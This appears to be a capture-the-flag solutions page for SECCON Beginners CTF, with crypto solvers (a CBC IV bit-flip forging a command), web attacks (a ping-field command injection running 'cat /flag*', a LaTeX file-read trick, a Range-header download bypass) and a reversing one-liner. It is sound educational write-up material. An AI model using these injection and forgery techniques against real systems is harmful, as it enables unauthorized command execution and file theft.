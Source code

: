 # SECCON Beginners CTF 2021

- https://github.com/SECCON/Beginners_CTF_2022

## Crypto

### CoughingFox

- https://www.youtube.com/watch?v=r0Ofky8LGJU&t=300s

#### Solution 1

```python
#!/usr/bin/env python3
from gmpy2 import isqrt
# c = (f + i)**2 + i
# f = sqrt(c - i) - i
# sqrt() が整数になるかどうかで i を判定する
cipher = [12147, 20481, 7073, 10408, 26615, 19066, 19363, 10852, 11705, 17445, 3028, 10640, 10623, 13243, 5789, 17436, 12348, 10818, 15891, 2818, 13690, 11671, 6410, 16649, 15905, 22240, 7096, 9801, 6090, 9624, 16660, 18531, 22533, 24381, 14909, 17705, 16389, 21346, 19626, 29977, 23452, 14895, 17452, 17733, 22235, 24687, 15649, 21941, 11472]
length = len(cipher)
flag = [0] * length
for c in cipher:
    for i in range(length):
        root = isqrt(c - i)
        if root**2 == c - i:
            flag[i] = root - i
            break
print(''.join([chr(ch) for ch in flag]))
```

### PrimeParty

- https://www.youtube.com/watch?v=r0Ofky8LGJU&t=948s

### command

- https://www.youtube.com/watch?v=r0Ofky8LGJU&t=2345

#### Solution 1

```python3
#!/usr/bin/env python3
# 1ブロック (16bytes) 以下
# CBC ビットフリップ: IV を改ざんして任意の平文を作る
from Crypto.Util.Padding import pad
from Crypto.Util.strxor import strxor
from pwn import log, process, remote
# io = process('./chal.py')
io = remote('::1', 5555)
io.sendlineafter(b'> ', b'1')
io.sendlineafter(b'> ', b'fizzbuzz')
io.recvuntil(b'Encrypted command: ')
inp = bytes.fromhex(io.recvline(keepends=False).decode())
iv, enc = inp[:16], inp[16:]
plain = pad(b'fizzbuzz', 16)
target = pad(b'getflag', 16)
newiv = strxor(strxor(iv, plain), target)
cmd2 = (newiv+enc).hex()
io.sendlineafter(b'> ', b'2')
io.sendlineafter(b'Encrypted command> ', cmd2.encode())
log.success('FLAG: %s', io.recvline().decode())
io.sendlineafter(b'> ', b'3')
```

## Web

### util

- https://www.youtube.com/watch?v=r0Ofky8LGJU&t=550s

#### Solution 1

- 開発者ツール > Network > Name > `ping` を右クリック、Copy > Copy as cURL (bash)

```zsh
curl 'https://172.23.177.114/util/ping' \
  -H 'Content-Type: application/json' \
  --data-raw '{"address":"127.0.0.1; cat /flag*"}' \
  --insecure |
  jq .result | grep -o 'ctf4b{.*}'
```

### textex

- https://www.youtube.com/watch?v=r0Ofky8LGJU&t=2070

#### Solution 1

```tex
\documentclass{article}
\usepackage{verbatim}
\newcommand{\ag}{ag}
\begin{document}
\verbatiminput{fl\ag}
\end{document}
```

### gallery

- https://www.youtube.com/watch?v=r0Ofky8LGJU&t=2910

#### Solution 1

```sh
#!/bin/sh
curl -sk 'https://127.0.0.1/?file_extension=fla' | grep -o '\S*flag\S*'
curl -sk https://127.0.0.1/images/flag_7a96139e-71a2-4381-bf31-adf37df94c04.pdf | wc -c
curl -sk https://127.0.0.1/images/flag_7a96139e-71a2-4381-bf31-adf37df94c04.pdf -r 0-10239 -o out1
curl -sk https://127.0.0.1/images/flag_7a96139e-71a2-4381-bf31-adf37df94c04.pdf -r 10240- -o out2
cat out* >flag.pdf
```

#### Solution 2

```python
#!/usr/bin/env python3
import requests
url = 'https://127.0.0.1/images/flag_7a96139e-71a2-4381-bf31-adf37df94c04.pdf'
chunk = 10240
start = 0
with open("flag.pdf", "wb") as f:
    while True:
        headers = {"Range": f"bytes={start}-{start+chunk-1}"}
        r = requests.get(url, headers=headers, verify=False)
        if r.status_code == 416 or not r.content:
            break
        f.write(r.content)
        print(f"[*] Downloaded bytes {start}-{start+len(r.content)-1}")
        start += chunk
```

## reversing

### quiz

#### Solution 1

```
strings quiz|grep -o 'ctf4b{.*}'
```

